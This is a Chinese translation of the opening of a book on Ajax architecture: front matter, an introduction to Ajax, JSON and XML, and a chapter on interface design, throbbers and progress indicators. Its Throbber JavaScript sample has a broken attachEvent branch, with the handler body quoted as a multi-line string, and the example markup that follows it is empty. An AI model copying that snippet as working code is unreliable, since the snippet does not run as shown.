# 高级 Ajax ： 架构与最佳实践


> "我非常欣赏本书不仅涵盖编码技巧，还全面介绍了Ajax应用程序的完整生命周期。任何希望成为专业前端开发人员的人都会赞赏本书所提供的架构洞察和最佳实践。" - Andy Gutmans，Zend Technologies联合创始人兼联合首席技术官


## 本书支持Safari在线图书馆

您喜爱的技术书籍封面上的Safari® Enabled图标意味着该书可通过Safari Bookshelf获取。当您购买本书时，您将免费获得在线版45天的访问权限。

Safari Bookshelf是一个电子参考库，让您轻松搜索数千本技术书籍、查找代码示例、下载章节，并随时随地访问技术信息。

要获得本书45天的Safari Enabled访问权限：

- 访问 http://www.prenhallprofessional.com/safarienabled
- 完成简短的注册表
- 输入优惠券代码 7FEJ-LBHC-WA2P-EICF-9P5Q

如果您在注册Safari Bookshelf或访问在线版时遇到问题，请发送电子邮件至 customer-service@safaribooksonline.com。

访问我们的网站：www.informit.com/title/9780131350649


## 致谢

在研究本书各部分内容时，有几个人抽出时间回答了我的问题，他们提供了巨大的帮助。

**Terry Chay**不仅与我就现实世界的Ajax开发以及如何使本书更易读进行了精彩的讨论，还在2006年Zend大会上将我介绍给其他几位演讲者。我非常珍视他的意见，因为他毫不避讳地经常、大声、准确地指出“胡说八道”，并立即为你解释清楚。

尽管在Zend大会日程繁忙，**Chris Shiflett**还是同意共进早餐，讨论一本关于Ajax的书。作为PHP和Web应用安全领域的专家，他的问题和评论有助于将本书安全章节的重点保持在Ajax开发者当今面临的一些主要问题上。

Zend Technologies, Ltd.帮助我参加了Zend/PHP大会暨博览会2006，并在之后安排了一次与**Andi Gutmans**非常有启发性的电话交谈。虽然Andi也不是Ajax开发者，但作为一名经常开发Ajax驱动站点服务器端应用的开发者，他提出了几个问题。

**Jon Ferraiolo**领导着OpenAjax联盟，他面临的任务不轻——需要将数十家公司的意见和意图提炼成对Ajax开发者有用的、切实的工具。他回答了我关于联盟和OpenAjax Hub的问题，极大地帮助澄清了Hub规范的意义和联盟的方向。

两位更亲近的朋友在各自最擅长的领域给予了支持。**Rev. Molly Black, D.D.**在我遇到措辞问题需要专业记者建议时提供了帮助，也在我需要一位具有设计师眼光的人帮助挑选与书籍风格相符、吸引人封面时提供了支持。我的同事兼朋友**Jason Ellis**，在我最初获得写书合同时，似乎和我一样兴奋，他帮助通读和检查各章节及代码，确保内容方向正确、对读者清晰、全面且准确。

我当然要感谢我的经纪人**David Fugate**，他在Linkedin.com上找到了我，并向一个自学校毕业后就没写过任何东西的人提供了写书的机会；还要感谢Prentice Hall的执行编辑**Debra Williams Cauley**。Debra从始至终与我紧密合作，帮助处理写作过程本身相关的事宜，从各地召集人员审阅章节并提出批评和建议。

至于一般的灵感来源，尤其是在尝试编写有趣的代码示例时：**Edgar Allan Poe**, **P.G. Wodehouse**, **Roald Dahl**, **Douglas Adams**, **Wade VanLandingham**, **Tank Girl**, **Mae West**, **Arnold Judas Rimmer BSc. SSc.**, **Groucho Marx**, **Morgiana**, **Jack D. Ripper**, **Forbidden Zone**, **Vyvyan Basterd**, **Professor Hubert J. Farnsworth**，以及此刻我记不清的其他人。

## 关于作者

**Shawn M. Lauriat**在互联网泡沫鼎盛时期搬到了旧金山。在吸取了惨痛教训（许多其他开发者也是如此）之后，他的家人搬到了长滩，进行了一年的学习和一些合同工作。回到旧金山后，他获得了一份EPA的合同工作，他的职业生涯从此慢慢起步。

在为他自己的公司Frozen O以及其他公司做合同工作的间隙，他自学了很多东西，并开始自学最新的Web应用技术。当他的家人因气候、科技产业和低生活成本搬到奥斯汀时，一件有趣的事情发生了：他的技能变得非常受欢迎，从此以后他一直在婉拒各家公司的邀请。他目前领导着业内最强大的构建/流程自动化工具——IBM Rational Build Forge的Ajax驱动Web应用的开发。

本书是他的第一本书，可能不是最后一本，但他还有些事情要做：制作音乐、经营自己的Web项目、为他残疾的妻子担任摄影师助理，以及与他们的两只狗和三只猫玩耍。然后，他才会得到许可写另一本。

此页有意留白

## 引言

## 本章内容

- 0.1 Ajax，一个缩略词
- 0.2 本书的意图
- 0.3 本书的先决条件

作为富Web应用开发的核心，Ajax将使用XHTML和CSS的Web界面提升到了桌面应用程序界面的标准，而无需界面依赖于Flash或Java等插件。在基于JavaScript的服务器交互出现之前，界面必须完全依赖于全页面加载，无论人们可能如何将页面修改得看起来并非如此。

在Ajax开发出现之前（顺便提一下，其实际实现比该术语的提出早了很多年），客户端开发也没有线程支持。简而言之，线程允许生成新的逻辑行，这些逻辑行与之前的、相邻的或之后的逻辑行完全独立。C、Java、Perl以及许多其他语言在客户端脚本以任何流行形式出现之前很多年就拥有了这种支持（在某些情况下）。JavaScript最接近的实现是`setTimeout`和`setInterval`库函数，它们需要延迟的、看似并行的执行，而不是实际进程的生成。虽然Ajax仍然不提供真正的线程，但它确实使JavaScript向此目标迈进了一步。

## 0.1 Ajax，一个缩略词

*Asynchronous Javascript And XML*这几个词组成了缩略词*Ajax*。为了充分理解Ajax的含义和实现，你必须理解它的每一个组成部分。即使使用同步请求，或者使用JSON或其他传输方式，了解Ajax的核心方面也只能对开发实践有所帮助。

自从Ajax最初的流行和随之而来的炒作以来，人们很容易忘记Ajax的实际含义及其局限性。Ajax确实是一种从JavaScript直接与服务器通信的极其有用的方法。它仅此而已，即使它的使用可以开启Web应用开发中先前未探索过的开发方法。


### 0.1.1 异步

当请求被提交到服务器时，它们不会对任何其他同时或顺序的请求产生直接影响。换句话说，仅仅因为一个请求在另一个请求之前提交，并不能以任何方式保证它会先从服务器收到响应。尽管这个概念看似简单，但应用程序中的异步行为常常被忽视，因为异步性为客户端开发引入了一个全新的复杂层面。

许多基于 Ajax 的 Web 应用程序仅仅使用 `XMLHttpRequest` 对象的异步标志来处理网络错误（有时甚至无意中这样做），而不是在给定的请求期间保持功能启用。虽然 `XMLHttpRequest` 提供的直接 JavaScript 到服务器的通信构成了该技术的核心，但它也能提供的异步行为常常扮演着无名英雄的角色，因为它为客户端 Web 应用程序带来了极大的灵活性和强大功能。

### 0.1.2 JavaScript

JavaScript（基于 ECMAScript，¹ 尽管情况可能相反，这取决于你询问的对象）有许多实现，不仅存在于各种 Web 浏览器中，也用于游戏开发和其他需要易于学习的脚本语言的应用程序。本书侧重于 JavaScript 在各种 Web 浏览器中的实现。这些 JavaScript 实现存在广泛的不兼容性，从 Mozilla 的 SpiderMonkey² 到 Safari 的 WebKit，再到 Jscript 等等。

习惯于服务端开发或面向对象编程的人，最初可能会被 JavaScript 基于原型的对象模型所困扰。从非常基础的意义上说，这意味着在某个对象内部调用的函数和方法，是*在该对象的上下文中*调用的。之所以会发生这种情况，是因为实例并没有

> ¹ Ecma International 是一个致力于标准化“信息和通信技术（ICT）与消费电子产品（CE）”的行业协会（什么是 Ecma International，www.ecma-international.org/memento/index.html），它维护着 ECMA-262 标准（www.ecma-international.org/publications/standards/Ecma-262.html），该标准定义了 ECMAScript 脚本语言。

> ² http://developer.mozilla.org/en/docs/SpiderMonkey—Gecko 渲染引擎的 JavaScript 引擎是用 C 语言编写的，被 Mozilla 系列的浏览器使用，例如 Firefox (www.mozilla.com/products/firefox)、SeaMonkey (www.mozilla.org/projects/seammonkey)、Camino (www.caminobrowser.org) 和 Epiphany (www.gnome.org/projects/epiphany)。

与其定义之间明确的关联，其原型仅仅是奠定了其结构和特性的基础。

JavaScript 对象 `XMLHttpRequest`（最初是 Microsoft 创建的一个 ActiveX 控件）为整个现在被称为 Ajax 的技术聚合体提供了关键。它提供了一个接口，通过该接口，JavaScript 可以与服务器发送和接收数据，而无需进行完整的页面加载。也存在其他发送和接收数据的方法，但它们各自以非设计用途的方式使用了 HTML 和 XHTML 的某些方面，因此（虽然在某些情况下仍然有用），它们只是作为变通方案而存在。

### 0.1.3 XML

XML 代表可扩展标记语言，由万维网联盟（W3C；http://w3.org）定义，并提供了一种非常灵活、通用的文本格式。如果这听起来描述相当宽泛，那应该是的。XML 现在涵盖了数据存储、通信、定义、描述和表示。在 Ajax 中，XML 指的是数据传输。`XMLHttpRequest` 对象在其 HTTP 方法之外还提供了另一项有用的功能：当服务器返回 XML 时，`XMLHttpRequest` 对象提供 `responseXML` 属性，这是一个只读的响应 XML 文档。

使用 XML，一个来自服务器的非常简单的响应，包含两个命名变量（`var1` 和 `var2`），每个都设置为字符串值（分别为 "first value" 和 "second value"），可能看起来像这样：

```
<?xml version="1.0"?>
<response>
    <var1>first value</var1>
    <var2>second value</var2>
</response>
```

许多 Ajax 驱动的 Web 应用程序使用其他格式在服务器之间传输数据，包括：

-   **URL 编码**—数据采用 HTTP POST 请求使用的形式，就像在表单提交期间一样，例如 `var1=first%20value&var2=second%20value`。
-   **原始文本**—通常用于非常简单的数据，或者当响应返回确切的标记供 JavaScript 插入当前文档时：

```
<input type="text" name="var1" value="first value" />
<input type="text" name="var2" value="second value" />
```

-   **JavaScript 对象表示法（JSON）**—一种日益流行的格式，JSON 将数据格式化为原始 JavaScript 的子集。这不仅具有客户端代码即时解析的优势，而且与更冗长、全球通用的格式（如 XML）相比，它往往占用更少的带宽。此外，它这样做不会像 URL 编码的值对那样丢失数据结构：

```
{
    var1:"first value",
    var2:"second value"
}
```

## 0.2 本书意图

随着技术发展进入普遍使用阶段，Ajax 开发者社区需要涵盖架构、调优、Ajax 的替代用途等方面的书籍。许多书籍和教程已经提供了很好的入门介绍，它们可以向你展示实现即输即搜、聊天小部件和 RSS/ATOM 阅读器的几种不同方法。许多资源都详细解释了 Ajax 的历史及其在当今以 `XMLHttpRequest` JavaScript 对象为中心的实现之前的多种化身。有关一些精选建议，请参阅本书末尾的附录 A "资源"。

相反，本书着眼于使用 Ajax 为企业级 Web 应用程序创建丰富的、基于浏览器的界面，同时考虑到此类任务所需的灵活性、可重用性、可扩展性和可维护性。Ajax 在本书中并不是作为席卷 Web 开发的最新、最伟大的首字母缩略词而存在的。相反，它像其他任何工具一样存在——在某些情况下极其有用，在其他情况下则完全不适用。

例如，许多参考网站会发现很难将 Ajax 用于对用户具有特殊价值的任何功能。手册和其他参考材料，对于用户要阅读的大段文本，可能会想出一个 Ajax 阅读器，提供一个单独的可滚动窗格，在用户滚动浏览时延迟加载内容。这听起来很酷，但它破坏了在页面中搜索特定单词或短语的能力。它还移除了在失去互联网连接后阅读某些内容的能力。一些参考网站在其搜索字段中添加了自动建议，但除非你将整个字典预加载到浏览器的内存中，否则它们往往反应太慢，无法满足一般用途，这可能会浪费大量带宽，而这一功能可能只有少数人能够使用。

craigslist.org（见图 0.1）是一个很好的例子，它是一个在没有花哨或杂乱界面的情况下蓬勃发展起来的网站，它已经发展到为 50 个国家的 450 个城市提供基本免费的分类信息服务和论坛，其主页上甚至没有一张图片，更不用说丰富的应用程序功能。该网站反而专注于内容和搜索这些内容。



**图 0.1** 默认的 craigslist.org 页面。

相比之下，涉及快速浏览和编辑大量较小项目，或大量可编辑的小块大型项目的网站和 Web 应用程序，在 Ajax 的使用下蓬勃发展。Google 地图（见图 0.2）在公开测试版时引起了所有人对 Ajax 的关注，它使用 Ajax 根据用户与地图的交互，分块引入大量的图像和元数据。拥有大量给定元素集事务的 Web 应用程序（例如在线游戏），通过多次复用相同的界面来提交和显示相似的数据，节省了大量时间和带宽。


## 0.3 本书的先决条件

无论你从事何种项目，你都应该了解实现目标的可选方案、哪些方案最为有效及其原因。Ajax 周围充斥着各种热议，有褒有贬；然而，它真正需要的是一个坚实可靠的基础，用于严肃、实际的应用程序开发。OpenAjax Alliance<sup>3</sup> 已开始朝这个方向努力，构建工具以防止 Ajax 工具包之间的命名冲突，并联合企业和个人，致力于促进专业级工具包之间的稳定性、安全性和互操作性。

本书涵盖了创建一个功能全面的应用程序所需的主题范围，无论使用何种工具和技术。许多开发者创建了自己的工具包，以便抽象实际的 Ajax 通信层并加速开发。虽然本书不针对任何特定工具包，但你可以轻松地将许多此类工具应用于开发，同时仍能遵循本书各章节的内容。

> <sup>3</sup> “OpenAjax Alliance 是一个由领先的供应商、开源项目和使用 Ajax 的公司组成的组织，致力于成功采用开放且可互操作的基于 Ajax 的 Web 技术。其首要目标是通过促进客户混合匹配 Ajax 技术提供商提供的解决方案的能力，并帮助推动 Ajax 生态系统的未来，从而加速客户在 Ajax 方面的成功”（www.openajax.org）。

其他 Ajax 书籍花费了大量时间向读者介绍所有涉及的技术（Apache、MySQL、PHP、XHTML、JavaScript，当然还有 `XMLHttpRequest` 对象本身），以至于没有机会深入探讨更高级的主题和实践。本书利用了现有内容，假定读者已具备一定的理解基础，以便详细审视和探索设计使用 Ajax 的 Web 应用程序的更复杂方法。本书并未着眼于一些现有的 AJAX 框架，而是简要介绍了更具实验性的用途，例如游戏开发。

因此，如果你尚未使用过 Ajax 或某种形式的服务器端脚本语言、数据库或 Web 服务器，你可能需要阅读像 *Understanding Ajax*（Eichorn, 2006）这样的书籍，并跟随示例进行实践。虽然本“引言”部分确立了本书后面使用和引用的技术，但它仅作为一个快速概述，就像教授在学期第一周提供快速概述以唤起你对上学期课程的记忆一样。

本书中的示例代码为每个应用层使用了以下技术。在开始阅读本书之前，你应该对所有这些技术都有大致的了解：

- **Web服务器**— Apache 的 HTTPD (http://httpd.apache.org) 版本 2.0。在撰写本文时，Apache 基金会已发布 2.2.* 分支作为主要稳定分支。本书中的示例配置指令应该可以顺利迁移到更新版本，偏差不大。
- **数据库服务器**— MySQL 数据库服务器 5.0 (http://dev.mysql.com/downloads/mysql/5.0.html)。5.0.* 分支相比以前的版本引入了大量有用的功能和稳定性，包括存储过程、触发器、视图和严格模式。在撰写本文时，MySQL AB 已发布 5.1 分支作为 Beta 版。
- **服务器端脚本**— PHP 5.2 (www.php.net/releases/5_2_0.php)。PHP 5.2 带来了输入过滤扩展、默认启用的 JSON 库、跟踪文件上传进度的更大能力、大幅改进的时区处理等。虽然 PHP 6 为 PHP 带来了全局 Unicode 支持、清理的功能、更紧密地集成新的 PDO 数据库扩展、甚至对对象模型的更彻底改进，以及，出于某种原因，`goto`（以命名 `break` 语句的形式），但 PHP 团队目前仅从源代码提供它。它还有很大的开发空间，但其采用率应该会比 PHP5 目前所见的更高。

> PHP 从技术上讲不关心字符串的字节。它只将它们视为字节数字列表。虽然这有利于让 UTF-8 字符串（甚至没有多字节字符串库）无损地通过 PHP，但副作用可能会在应用程序中表现得极其奇怪，甚至常常是毁灭性的。

- **标记语言**— XHTML 1.1 (www.w3.org/TR/xhtml11)。虽然 XHTML 2.0 已经到了第八个公开工作草案，但 XHTML 1.1 在严格遵循 XML、模块化和向 XHTML 2.0 过渡的同时，保持了与 HTML 的兼容性。不幸的是，Internet Explorer 并不真正支持 XHTML；相反，它将其渲染为 HTML。这确实造成了相当大的差异，并阻碍了许多开发者充分利用他们可用的 XHTML 模块。因此，直接在浏览器中渲染的标记将具有 `Content-type: text/html`，而不是 W3C 推荐的 `application/xhtml+xml`。从技术上讲，该规范（www.w3.org/TR/xhtml-media-types）*强烈建议*不要将 `text/html` 用于 HTML 4 或 XHTML 1.0（兼容 HTML）以外的任何内容。但是，它并不禁止这样做，就像它禁止将除 `text/html` 以外的任何东西与 HTML 4 一起使用一样。
- **样式**— CSS 2.1（层叠样式表，第 2 版修订版 1，www.w3.org/TR/CSS21）。CSS 3 引入了多年来被要求并热切期待的许多样式和布局能力；然而，它尚未达到足够稳定的程度，以至于许多浏览器只能支持一些基础内容。⁵ 即使在备受期待的 Internet Explorer 7（以下简称 IE 或 IE7）发布后，IE 仍然未能完全支持 CSS 2.0 规范。IE 开发团队为改善 IE 的 CSS 支持状况付出了巨大努力，虽然他们做得非常出色，但并未完全达到目标。由于存在许多资源（http://css-discuss.incutio.com、http://blogs.msdn.com/ie 等）来涵盖迫使 IE6 和 IE7 遵循你的设计所需的技巧和修复，本书将不详细介绍如何实现完整的、像素完美的、跨浏览器的设计。
- **客户端脚本**— 本书将使用 JavaScript 1.5，结合 `XMLHttpRequest` 对象，该对象目前仅作为一个非正式约定的对象和一个规范的初步版本存在（www.w3.org/TR/ XMLHttpRequest 作为 Web API 工作组活动的一部分）。许多 Ajax 类型的 Web 应用程序和网站使用 Adobe Flash 与服务器进行文本和 XML 通信；然而，Flash 开发对于本书的涵盖范围来说过于具体。本书涵盖的许多相同原理和大量架构仍然适用，但实现方式不同。ActionScript，同样是一种 ECMAScript 实现，实际上与 JavaScript 共享语法、对象模型，甚至通常共享其开发工具，因此，虽然 XMLHttpRequest 对象在 ActionScript 中不存在，工作 DOM 也不同，但许多其他示例代码应该看起来非常熟悉且易于理解。

> ⁵ 圆角边框、多背景图像、列布局、文本阴影和透明度都已进入 Webkit 项目。在撰写本文时，Mozilla Gecko 引擎和 Opera 的渲染引擎都已实现了其中的大部分。

熟悉程度，至少达到能够将代码移植到你所选择的语言的理解程度，肯定会有所帮助，尽管本书旨在提供你可以在自己的富 Web 应用程序中实现的方法、架构和模式，无论你使用何种技术来驱动它。前面列出的技术有几个好处。它们背后的组织已使其可免费下载并在广泛的平台上使用，并在广泛的浏览器中进行了测试。此外，这些技术拥有庞大的用户群和在线社区，如果你遇到任何问题，他们随时准备并愿意提供帮助。


# 第1章

## 本章内容

- **1.1 界面与展示**  12
- **1.2 用户期望**  16
- **1.3 指示器与其他形式的用户反馈**  17
- **1.4 语义化标记**  30
- **1.5 CSS与JavaScript的共同之处**  37

埃德加·爱伦·坡曾言，短篇小说中的每个句子、每个词语都必须为作品整体服务。任何冗余内容都浪费了篇幅和读者的时间，应予以剔除。

用户界面亦遵循此道，无论是文本、表单元素还是媒体内容，页面上的所有元素都应服务于整体目标。人们往往过度使用新技术，Ajax也不例外。其应用已呈爆发式增长，正如曾风靡一时的`blink`和`marquee` HTML标签¹、动画GIF、小程序、`table` HTML标签以及Flash等网页技术。

当这些技术初期的流行褪去，过度使用后，大多数网页设计师和开发者都会本能地对其产生负面反应。这些技术最初都有实用的目的，但现在却被认为无法为用户带来价值；唯一例外可能是`blink`和`marquee`标签——实际上，W3C已专门撰文反对使用它们。

### 1.1 界面与展示

Ajax功能最适合用于简化用户的任务，而非仅仅复制那些通过更简单、更快速的手段就能轻易实现的功能。仅仅为了渲染一个公司主页，就动用半打JavaScript文件、多个CSS文件和数个Ajax调用，会耗费大量时间和内存，而用户收益甚微²。这实际上让用户等待的时间远超必要，同时消耗了远超必要的服务器资源。

图1.1展示了Firebug的截图，这是一款用于Firefox的CSS、DOM和JavaScript调试工具（关于此Firefox扩展的更多信息，请参见第4章“调试客户端代码”）。该截图显示了一个特别臃肿的企业网站默认页面所有链接资源的加载时间和顺序。该页面包含18个Ajax调用、14个样式表、8个JavaScript文件，以及常规的链接图片资源列表。通过企业级宽带连接，该页面总加载时间为5.02秒，页面总大小为627kB。



图1.1 Firebug对某企业网站默认页面的资源加载分析。

与Ajax的滥用形成对比的是，添加一个轻量级的内容加载脚本，在用户请求时显示博客评论，可以通过使用更少带宽来减少加载时间；此外，它还能将评论保持在比跳转到（有时设计风格迥异的）评论页面更好的上下文中。

#### 1.1.1 实现

图1.2展示了一个用户注册界面，用户通过三个步骤创建账户。带编号的标签页式界面清晰地告知用户整个流程的长度、当前进度以及剩余步骤。将表单封装在标签页容器内，暗示从步骤1到步骤2只需更换容器，而无需刷新整个页面。同时，这种DHTML的使用并未偏离页面注册账户的核心目的；它只是让过程变得更容易、更快捷。



图1.2 用于创建用户账户的标签页式界面。

如果页面使用了过渡效果，这种用法绝对属于“展示”而非“界面”的范畴。某些过渡效果，比如容器变化的淡入或初始高亮显示，确实能增强用户界面而不分散注意力，因为许多用户不会注意到（或无法分辨）页面DOM中新元素的插入。

图1.2中的第一种方法只是简单地插入新内容，没有任何过渡效果；第二种方法则先预留出空间，然后淡入新文本。通过应用如图1.3所示的*微妙*过渡效果，界面可以在用户输入未通过表单验证、发生错误或某个操作成功执行并需要通知用户时提供反馈。例如，用户可能希望知道应用程序已创建了他们的账户，但可能并不关心用户名是否通过了正则表达式测试或SQL语句是否执行成功。这些以及其他创建账户所需的操作，都归结为用户真正关心的一个动作：创建新账户。本节开头展示的标签页式界面可以使用此类效果，在用户进展过程中更新界面，告知他们需要进行的任何修正。

> 某些浏览器支持专有的页面切换过渡效果，可以作为全局设置或由页面本身指定。一些脚本包也为整个页面或特定容器实现了此功能。



图1.3 插入文本节点时，两种过渡方法的阶段对比。

图1.4所示的错误直到用户点击移动到下一个面板时才会出现（用户通常不会预料到服务器验证会在那时发生）。他们可能希望在继续之前检查信息并更正拼写错误。对于其他更长的界面，在用户进度超过错误太多之前进行检查可能更合理；然而，对于像这样简短的表单，在用户执行操作时进行检查最为合理。



图1.4 标签页式界面报告“用户名已使用”错误。

图1.5展示了一个具有多个动态方面的用户注册界面示例。然而，所有功能的设计都植根于帮助用户尽可能快速、轻松地注册账户，而不是突出显示动态元素。



图1.5 在将用户移至下一步之前，执行必要的服务器端检查。

### 1.2 用户期望

在Ajax驱动的功能设计中，用户期望常常被忽视，这意味着你永远不必向用户解释点击某个按钮或执行其他操作会发生什么。按钮或链接绝不应使用笼统且信息不足的“点击这里”或“提交”，而应使用如页面标题或“保存资料”这样更贴切的文案。

此外，界面绝不应让用户感到意外，*无论*用户当前在做什么，都不应使其脱离上下文。过期的会话导致用户填写半小时的表单内容丢失，这种问题甚至在最现代的Web应用程序中也时常发生，这恰好说明了你需要避免的那种挫败感。

上一节关于服务器端验证的例子涉及了用户在使用注册表单时的期望。除非满足以下条件之一，用户不会期望以任何形式与服务器进行通信：

- 用户主动发起操作——这表现为点击鼠标按钮、按下Enter或Return键、结束拖放操作，或执行其他明确事件以表明预期服务器响应。
- 所采取的操作不会使用户脱离上下文，并且与当前界面无缝集成——自动保存草稿属于此类，以及像RSS滚动条这样的流式请求。

> IE几乎不支持流式请求，因为它仅在响应完全从服务器返回时才触发一次`onreadystatechange` XMLHttpRequest事件。相比之下，Opera支持WHATWG定义的服务器发送事件规范（www.whatwg.org/specs/web-apps/current-work/#server-sent-events）。

---
¹ 这两个标签实际上并不在HTML规范中，但多年来浏览器一直支持它们。
² 这并不意味着所引用的技术对用户*永远*没有益处，只是这个特定用例为用户带来的益处不足以证明其使用的合理性。


### 1.3 指示器与其他形式的用户反馈

由于 Ajax 调用绕过了浏览器的常规指示器和错误处理机制，你的应用程序需要以清晰、非侵入性的方式提供这些功能。例如，用一个半透明的块覆盖半个界面并显示一个旋转动画，会剥夺用户的操作功能，并违背了 Ajax 提供异步性的初衷。相反，界面设计需要在保持非侵入性与保持足够显著性（以便用户注意到变化）之间找到平衡。

> 旋转动画是一种用于指示持续时间不确定的后台活动的动画图像。浏览器本身通常有一个，位于窗口右上角，在整个页面加载时激活。

#### 1.3.1 旋转动画

对于旋转动画，设计上应包含某些不随当前视图或界面改变的元素；这种一致性就像浏览器本身的旋转动画一样。采用类似设计的旋转动画可以很好地工作，不过它仍然需要与浏览器的旋转动画区分开来，这样用户才不会混淆页面内的旋转动画与整个页面的加载（参见图 1.6）。


图 1.6 旋转动画的动画帧。

由于浏览器本身的常规停止按钮可能无法停止 Ajax 调用，因此点击旋转动画应该停止任何当前的后台处理。此行为也适用于排队的请求，因为用户点击旋转动画以停止处理时，不会期望在点击停止当前线程后，处理立即重新开始。

为了驱动旋转动画（即，从静态图像切换到动画图像，并在必要时再切换回来），可以使用一个简单的对象来透明地处理所有事务：

```
// Throbber manager
function Throbber() { }
Throbber.prototype = {
    image : null,
    requests : 0,

    requestOpened : function(event) {
        if (this.requests == 0) {
            this.image.src = '../images/throbber.gif';
        }
        this.requests++;
    },

    requestLoaded : function(event) {
        this.requests--;
        if (this.requests == 0) {
            this.image.src = '../images/throbber_stopped.gif';
        }
    },

    clicked : function() {
        request_manager.abortAll();
    },

    // Called on window load
    attach : function() {
        this.image = document.getElementById('throbber');
        if (this.image && request_manager) {
            request_manager.addEventListener(
                'open',
                [this, this.requestOpened]
            );
            request_manager.addEventListener(
                'load',
                [this, this.requestLoaded]
            );
            request_manager.addEventListener(
                'abort',
                [this, this.requestLoaded]
            );
            request_manager.addEventListener(
                'fail',
                [this, this.requestLoaded]
            );
            if (this.image.addEventListener) {
                this.image.addEventListener(
                    'click',
                    function() {
                        Throbber.prototype.clicked.apply(
                            throbber,
                            arguments
                        );
                    },
                    false
                );
            } else if (this.image.attachEvent) {
                this.image.attachEvent(
                    'onclick',
                    function() {
                        "Throbber.prototype.clicked.apply(
                            throbber,
                            arguments
                        );"
                    }
                );
            }
        }
    }
};
var throbber = new Throbber();
window.addEventListener(
    'load',
    function() {
        Throbber.prototype.attach.apply(throbber, arguments);
    },
    false
);
```

下面的标记通过元素 ID 使 `Throbber` 类感知该元素，并使其具有交互性，允许用户不仅能看到活动指示，还能通过点击图像来停止活动：

```

```

#### 1.3.2 进度指示器

与桌面应用程序相比，进度指示器在 Ajax 驱动的界面中带来了更大的挑战，这是由 `XMLHttpRequest` 对象的工作方式决定的。你几乎无法可靠地知道请求需要多长时间，或者它是否真的会返回。然而，对于某些操作，进度指示器确实更有意义，并且在告知用户需要等待多久（例如 Ajax 文件上传）或用户在向导式界面中已进行到何种程度方面（参见图 1.7）能产生奇效。


图 1.7 一个显示已加载文件的 CSS/JavaScript 进度指示器。

从可用性的角度来看，这个工具带来了一个挑战，因为当今许多进度条会覆盖大部分（如果不是全部）界面。特别是当它们未经预告就出现时，这些覆盖层会完全中断用户的工作流程，而不是提供关于后台过程的附加信息。

如果用户应该将进度视为用户界面的一部分，那么可以专门设置一个不碍事的界面部分，作为面向用户的全局输出机制。当使用需要较大屏幕分辨率（如 1024×768）的应用程序时，这种方法更容易实现；页面将有一个足够大的容器来容纳进度指示器，以向用户呈现足够的信息来证明其存在价值，如图 1.8 所示。更复杂的应用程序通常也比简单界面具有更高的全局消息速率，因此在这种情况下，专门分配空间给进度指示器更有意义。


图 1.8 一个在 UI 内的输出块，显示文件上传的消息和进度条。

这种方法在不干扰用户可能采取的其他操作的情况下，在界面内为用户提供了最大量的信息，因为进度将与其他任何请求并行继续。使用这种方法，用户无需任何额外的点击即可检查进度。

